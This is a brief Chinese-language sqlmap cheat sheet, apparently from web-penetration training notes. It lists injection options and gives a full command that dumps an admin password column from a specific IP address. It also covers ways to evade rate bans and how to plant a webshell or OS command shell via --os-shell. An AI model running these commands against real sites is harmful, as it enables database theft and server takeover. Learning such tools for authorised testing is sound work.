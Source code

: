 --dbs 跑库名

--tables 跑表名  

--columns 跑字段名

--dump 枚举数据(很危险，容易出事)

-D 指定库 -T 指定表 -C 指定字段

sqlmap.py -u http://59.63.200.79:8003/?id=1 -D maoshe -T admin -C

 password --dump

超详细Sqlmap指令手册：https://www.cnblogs.com/hongfei/p/3872156.html

常见指令：

 --random-agent 选择随机user-agents头 （系统，访问过快封Ip）

 --delay=1 每次探测延时1秒（防止访问过快被ban）

 --count 查看数据量

 --proxy "http://127.0.0.1:1080" 使用本地1080端口

 --level 1-5 测试等级（最低1，最高5） level等级越高检测越详细，例如 level大于2会检测cookie注入，大于3会检测头注入 --risk 2                       (--level 3 --risk 2) risk 测试更多的语句

 --is-dba       查询当前用户权限，如果DBA是True可以尝试直接拿webshell

 --os-shell 尝试往网站中放入一个cmdshell(就是拥有cmd权限的shell),先选择写入shell的脚本语言


1. Burpsuite工具的基础使用
2. 浏览器插件的安装




